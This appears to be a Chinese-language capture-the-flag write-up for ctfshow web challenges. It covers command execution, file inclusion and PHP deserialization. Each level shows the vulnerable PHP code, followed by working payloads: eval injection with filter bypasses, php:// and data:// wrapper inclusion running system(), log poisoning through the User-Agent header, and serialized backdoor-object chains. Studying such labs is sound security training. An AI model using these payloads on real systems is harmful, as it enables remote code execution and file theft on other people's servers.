# web入门

## 1.信息收集

## 2.爆破


## 3.命令执行

### Web29

1. 代码审计下

   ```php
    <?php
   error_reporting(0);
   if(isset($_GET['c'])){
       $c = $_GET['c'];
       if(!preg_match("/flag/i", $c)){
           eval($c);
       }
       //这里对flag进行了正则匹配过滤
   }else{
       highlight_file(__FILE__);
   } 
   ```

2. 通过`GET`请求传递参数，进行代码执行，绕过正则过滤即可

   ```shell
   #查看当前目录下文件
   ?c=system('ls');
   ```

   

3. 发现有`flag.php`，但是正则过滤了`flag`，这里可以用通配符来绕过

   ```shell
   ?c=system('cat fla?.php');
   
   #php没有显示要查看源代码
   
   #也可以重命名绕过
   ```

   


### web30

1. 代码审计

   ```php
    <?php
   error_reporting(0);
   if(isset($_GET['c'])){
       $c = $_GET['c'];
       if(!preg_match("/flag|system|php/i", $c)){
           eval($c);
       }
       //这里对system/php增加了过滤
   }else{
       highlight_file(__FILE__);
   } 
   ```

2. 考虑其他系统执行函数进行绕过，还可以用反引号作为系统命令

   ```shell
   ?c=passthru('ls');
   
   #反引号作为系统命令
   ?c=`cp fla?.??? 1.txt`;
   ```

   

3. 因为过滤了`php`,`flag`,这里用通配符来，查看flag
   
      ```shell
      ?c=passthru('cat fla*');
      ```
   
      
   
      


### web31

1. 仍然是代码审计

   ```php
    <?php
   error_reporting(0);
   if(isset($_GET['c'])){
       $c = $_GET['c'];
       if(!preg_match("/flag|system|php|cat|sort|shell|\.| |\'/i", $c)){
           eval($c);
       }
       //在此基础上对cat,sort,shell,.,空格,单引号进行过滤
   }else{
       highlight_file(__FILE__);
   } 
   ```

2. 这里可以构造`eval`函数请求嵌套或者`passthru`函数进行绕过

   ```shell
   ?c=eval($_GET[1]);&1=system('ls');
   
   #passthru函数
   ?c=passthru("ls");
   ```

   

3. 嵌套函数可以无视正则过滤，但是第二种`passthru`方法，`cat`被过滤了，还可以用`tac`,`more`，单引号被过滤用双引号，空格被过滤用tab键

   ```shell
   ?c=eval($_GET[1]);&1=system('cat flag.php');
   
   #passthru函数
   ?c=passthru("tac%09fla*");
   ```

   


### web32

1. 代码审计

   ```php
    <?php
   error_reporting(0);
   if(isset($_GET['c'])){
       $c = $_GET['c'];
       if(!preg_match("/flag|system|php|cat|sort|shell|\.| |\'|\`|echo|\;|\(/i", $c)){
           eval($c);
       }
       //过滤flag，system，php，cat，sort，shell，点号，空格，单引号,反撇号,echo,(
   }else{
       highlight_file(__FILE__);
   } 
   ```
   
2. 用上一题的方法，嵌套包含flag.php文件逃逸出来

   ```shell
   ?c=include$_GET[1]?>&1=php://filter/convert.base64-encode/resource=flag.php
   
   #php://filter参考文件包含漏洞中的php伪协议
   
   #得到的文字base64再解码
   ctfshow{2bf658c1-4a45-4dea-8ecd-6379c4f22abf}
   ```

   


## 4.文件包含

### web78

1. 代码审计

   ```php
    <?php
   if(isset($_GET['file'])){
       $file = $_GET['file'];
       include($file);
     //文件包含漏洞
   }else{
       highlight_file(__FILE__);
   } 
   ```

2. 利用`php://input`伪协议读取数据

   ```shell
   ?file=php://input
   
   #POST数据
   <?php system('ls');?>
   <?php system('cat flag.php');?>
   ```

   

### web79

1. 代码审计

   ```php
    <?php
   if(isset($_GET['file'])){
       $file = $_GET['file'];
       $file = str_replace("php", "???", $file);
     //这里对file变量里的php替换成???
       include($file);
   }else{
       highlight_file(__FILE__);
   } 
   ```

2. 这里对变量里的`php`进行了过滤，所以不能考虑`php`伪协议，考虑用`data`伪协议进行读取

   ```shell
   ?file=data://text/plain;base64,<?php system('ls');?>
   
   #base64进行编码
   ?file=data://text/plain;base64,PD9waHAgc3lzdGVtKCdscycpOz8%2b
   ```

   

   ```shell
   ?file=data://text/plain;base64,<?php system('cat flag.php');?>
   
   #base64进行编码
   ?file=data://text/plain;base64,PD9waHAgc3lzdGVtKCdjYXQgZmxhZy5waHAnKTs/Pg==
   ```

   


### web80

1. 代码审计

   ```php
    <?php
   if(isset($_GET['file'])){
       $file = $_GET['file'];
       $file = str_replace("php", "???", $file);
       $file = str_replace("data", "???", $file);
     //在上题基础上，还过滤了data
       include($file);
   }else{
       highlight_file(__FILE__);
   } 
   ```

2. 这里不能用伪协议了，根据题目提示包含日志文件，访问` ?file=/var/log/nginx/access.log`，发现有`User-Agent`回显

   

3. 这里利用日志文件的`User-Agent`作为写入点，要重发几次

   ```shell
   GET /?file=/var/log/nginx/access.log HTTP/1.1
   Host: 884008a9-56e7-4131-a23f-2a24d06688ae.challenge.ctf.show:8080
   #User-Agent写入点
   User-Agent: <?php system('ls');?>
   Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
   Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
   Accept-Encoding: gzip, deflate
   Connection: close
   Cookie: UM_distinctid=179eac647a5115-07272ce03102d18-445567-1aeaa0-179eac647a66e6
   Upgrade-Insecure-Requests: 1
   Pragma: no-cache
   Cache-Control: no-cache
   ```

   

   ```shell
   GET /?file=/var/log/nginx/access.log HTTP/1.1
   Host: 884008a9-56e7-4131-a23f-2a24d06688ae.challenge.ctf.show:8080
   #User-Agent写入点
   User-Agent: <?php system('cat fl0g.php');?>
   Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
   Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
   Accept-Encoding: gzip, deflate
   Connection: close
   Cookie: UM_distinctid=179eac647a5115-07272ce03102d18-445567-1aeaa0-179eac647a66e6
   Upgrade-Insecure-Requests: 1
   Pragma: no-cache
   Cache-Control: no-cache
   ```

   

4. 远程文件包含写🐎，应该也可以，可以尝试下。


## 8.php反序列化

### web254

1. 老样子代码审计

   ```php
   <?php
   error_reporting(0);
   highlight_file(__FILE__);
   include('flag.php');
   
   //定义类
   class ctfShowUser{
       public $username='xxxxxx';
       public $password='xxxxxx';
       public $isVip=false;
   
     //定义类中的checkvip方法，返回isVIP属性值
       public function checkVip(){
           return $this->isVip;
       }
     //定义类中的login方法，提供username和passwpord公共接口
       public function login($u,$p){
         #对username和password的值进行校验
           if($this->username===$u&&$this->password===$p)
           {
             #校验正确,isVip为真
               $this->isVip=true;
           }
         //返回isVIP属性值
           return $this->isVip;
       }
     //定义类中的vipOneKeyGetFlag方法，校验isVIP是否为真，输出flag
       public function vipOneKeyGetFlag(){
           if($this->isVip){
               global $flag;
               echo "your flag is ".$flag;
           }else{
               echo "no vip, no flag";
           }
       }
   }
   
   $username=$_GET['username'];
   $password=$_GET['password'];
   
   if(isset($username) && isset($password))
     //获取username和password是否有值
   {
       $user = new ctfShowUser();
     //创建对象
       if($user->login($username,$password))
         //调用成员函数,校验username，password值
       {
         //调用成员函数，返回isVIP属性值
           if($user->checkVip())
           {
             //调用成员函数，获取flag
               $user->vipOneKeyGetFlag();
           }
       }else{
           echo "no vip,no flag";
       }
   } 
   ```

2. 主要是对`username`和`password`的值进行核对，没有用到反序列化

   ```shell
   ?username=xxxxxx&password=xxxxxx
   ```


### web255

1. 代码审计

   ```php
   <?php
   error_reporting(0);
   highlight_file(__FILE__);
   include('flag.php');
   
   class ctfShowUser{
       public $username='xxxxxx';
       public $password='xxxxxx';
       public $isVip=false;
   
       public function checkVip(){
           return $this->isVip;
       }
       public function login($u,$p){
           return $this->username===$u&&$this->password===$p;
         //这里没有返回isVIP的值
       }
       public function vipOneKeyGetFlag(){
           if($this->isVip){
               global $flag;
               echo "your flag is ".$flag;
           }else{
               echo "no vip, no flag";
           }
       }
   }
   
   $username=$_GET['username'];
   $password=$_GET['password'];
   #前面定义类和上一题类似
   
   if(isset($username) && isset($password))
     //对传递的参数进行校验是否有值
   {
     //对接收的cookie值进行反序列化赋值给$user
       $user = unserialize($_COOKIE['user']);
     //调用成员函数进行校验
       if($user->login($username,$password)){
           if($user->checkVip()){
               $user->vipOneKeyGetFlag();
           }
       }else{
           echo "no vip,no flag";
       }
   }
   ```

2. 简单分析下，代码首先校验`GET`传递的参数是否有值，然后对接收到`cookie`值进行反序列还原成对象，然后调用成员函数对对象中`username`和`password`值与传递的参数进行校验，然后校验`isVip`是否为真，输出flag

   ```php
   #所以这里我们进行序列化赋值给cookie
   <?php
   class ctfShowUser{
       public $username='xxxxxx';
       public $password='xxxxxx';
     #必须设置$isVip为真，上面代码没有返回值
       public $isVip=true;
   }
   $a=new ctfShowUser();
   #需要对值进行url编码，cookie无法对分号进行处理
   echo urlencode(serialize($a));
   ?>
     
   #输出
   #O%3A11%3A%22ctfShowUser%22%3A3%3A%7Bs%3A8%3A%22username%22%3Bs%3A6%3A%22xxxxxx%22%3Bs%3A8%3A%22password%22%3Bs%3A6%3A%22xxxxxx%22%3Bs%3A5%3A%22isVip%22%3Bb%3A1%3B%7D
   ```

   利用工具进行提交   


### web256

1. 代码审计

   ```php
   <?php
   error_reporting(0);
   highlight_file(__FILE__);
   include('flag.php');
   
   class ctfShowUser{
       public $username='xxxxxx';
       public $password='xxxxxx';
       public $isVip=false;
   
       public function checkVip(){
           return $this->isVip;
       }
       public function login($u,$p){
           return $this->username===$u&&$this->password===$p;
       }
       public function vipOneKeyGetFlag(){
           if($this->isVip){
               global $flag;
               if($this->username!==$this->password){
                 #判断username不等于password时输出flag
                       echo "your flag is ".$flag;
                 }
           }else{
               echo "no vip, no flag";
           }
       }
   }
   
   $username=$_GET['username'];
   $password=$_GET['password'];
   
   if(isset($username) && isset($password)){
       $user = unserialize($_COOKIE['user']);    
       if($user->login($username,$password)){
           if($user->checkVip()){
               $user->vipOneKeyGetFlag();
           }
       }else{
           echo "no vip,no flag";
       }
   } 
   ```

2. 分析下，这里跟上题差不多，只不过要求`username`和`password`值不能相同，这里构造不一样的就行了

   ```php
   <?php
   class ctfShowUser{
       public $username='1';
       public $password='2';
       public $isVip=true;
   }
   $a=new ctfShowUser();
   echo urlencode(serialize($a));
   ?>
     
   #输出
   #O%3A11%3A%22ctfShowUser%22%3A3%3A%7Bs%3A8%3A%22username%22%3Bs%3A1%3A%221%22%3Bs%3A8%3A%22password%22%3Bs%3A1%3A%222%22%3Bs%3A5%3A%22isVip%22%3Bb%3A1%3B%7D
   ```

3. 利用工具传值就好了

   


### web257

1. 代码审计

   ```php
   <?php
   error_reporting(0);
   highlight_file(__FILE__);
   
   class ctfShowUser{
       private $username='xxxxxx';
       private $password='xxxxxx';
       private $isVip=false;
       private $class = 'info';
     
     //魔术方法，当对象被创建时被触发
       public function __construct(){
         #这里创建info对象  
         $this->class=new info();
       }
       public function login($u,$p){
           return $this->username===$u&&$this->password===$p;
       }
     //魔术方法，当对象被销毁时，自动触发
       public function __destruct(){
         //调用对象中的成员函数
           $this->class->getInfo();
       }
   
   }
   
   class info{
       private $user='xxxxxx';
       public function getInfo(){
           return $this->user;
       }
   }
   
   //需要去利用的后门类
   class backDoor{
       private $code;
       public function getInfo(){
           eval($this->code);
       }
   }
   
   $username=$_GET['username'];
   $password=$_GET['password'];
   
   if(isset($username) && isset($password)){
       $user = unserialize($_COOKIE['user']);
       $user->login($username,$password);
   }
   ```

2. 这里要利用魔术方法，当对象被销毁时，调用成员`getInfo`方法，所以要让`Cookie`反序列化的对象为`backdoor`类，然后对象被销毁后调用析构函数，去执行`eval`函数

   ```php
   #构造序列化backdoor对象
   <?php
   class ctfShowUser{
       private $username='xxxxxx';
       private $password='xxxxxx';
       private $isVip=false;
       private $class = 'info';
   
       public function __construct(){
           $this->class=new backDoor();
       }
       public function login($u,$p){
           return $this->username===$u&&$this->password===$p;
       }
       public function __destruct(){
           $this->class->getInfo();
       }
   
   }
   
   class backDoor{
       private $code="system('tac flag.php');";
       public function getInfo(){
           eval($this->code);
       }
   }
   $a=new ctfShowUser();
   echo(urlencode(serialize($a)));
   ?>
     
   #输出
   #O%3A11%3A%22ctfShowUser%22%3A4%3A%7Bs%3A21%3A%22%00ctfShowUser%00username%22%3Bs%3A6%3A%22xxxxxx%22%3Bs%3A21%3A%22%00ctfShowUser%00password%22%3Bs%3A6%3A%22xxxxxx%22%3Bs%3A18%3A%22%00ctfShowUser%00isVip%22%3Bb%3A0%3Bs%3A18%3A%22%00ctfShowUser%00class%22%3BO%3A8%3A%22backDoor%22%3A1%3A%7Bs%3A14%3A%22%00backDoor%00code%22%3Bs%3A23%3A%22system%28%27tac+flag.php%27%29%3B%22%3B%7D%7D
   ```

3. 利用工具发送数据包

   


### web258

1. 依然是代码审计

   ```php
   <?php
   error_reporting(0);
   highlight_file(__FILE__);
   
   class ctfShowUser{
       public $username='xxxxxx';
       public $password='xxxxxx';
       public $isVip=false;
       public $class = 'info';
   
       public function __construct(){
           $this->class=new info();
       }
       public function login($u,$p){
           return $this->username===$u&&$this->password===$p;
       }
       public function __destruct(){
           $this->class->getInfo();
       }
   
   }
   
   class info{
       public $user='xxxxxx';
       public function getInfo(){
           return $this->user;
       }
   }
   
   class backDoor{
       public $code;
       public function getInfo(){
           eval($this->code);
       }
   }
   
   $username=$_GET['username'];
   $password=$_GET['password'];
   
   if(isset($username) && isset($password)){
       if(!preg_match('/[oc]:\d+:/i', $_COOKIE['user']))
         //这里增加了正则的匹配	o:数字:
       {
           $user = unserialize($_COOKIE['user']);
       }
       $user->login($username,$password);
   }
   ```

2. 利用payload的数字前面加上`+`号绕过正则

   ```php
   <?php
   class ctfShowUser{
       public $username='xxxxxx';
       public $password='xxxxxx';
       public $isVip=false;
       public $class = 'info';
   
       public function __construct(){
           $this->class=new backDoor();
       }
       public function login($u,$p){
           return $this->username===$u&&$this->password===$p;
       }
       public function __destruct(){
           $this->class->getInfo();
       }
   
   }
   
   class backDoor{
       public $code="system('tac flag.php');";
       public function getInfo(){
           eval($this->code);
       }
   }
   //这里创建对象进行序列化操作
   $a=serialize(new ctfShowUser());
   //对两个O开头后的数字前面加上+号进行替换
   $b=str_replace('11','+11',$a);
   $c=str_replace('8','+8',$b);
   //输出url编码
   echo urlencode($c);
   ?>
   
   #输出
   #O%3A%2B11%3A%22ctfShowUser%22%3A4%3A%7Bs%3A%2B8%3A%22username%22%3Bs%3A6%3A%22xxxxxx%22%3Bs%3A%2B8%3A%22password%22%3Bs%3A6%3A%22xxxxxx%22%3Bs%3A5%3A%22isVip%22%3Bb%3A0%3Bs%3A5%3A%22class%22%3BO%3A%2B8%3A%22backDoor%22%3A1%3A%7Bs%3A4%3A%22code%22%3Bs%3A23%3A%22system%28%27tac+flag.php%27%29%3B%22%3B%7D%7D
   ```

3. 利用工具进行提交

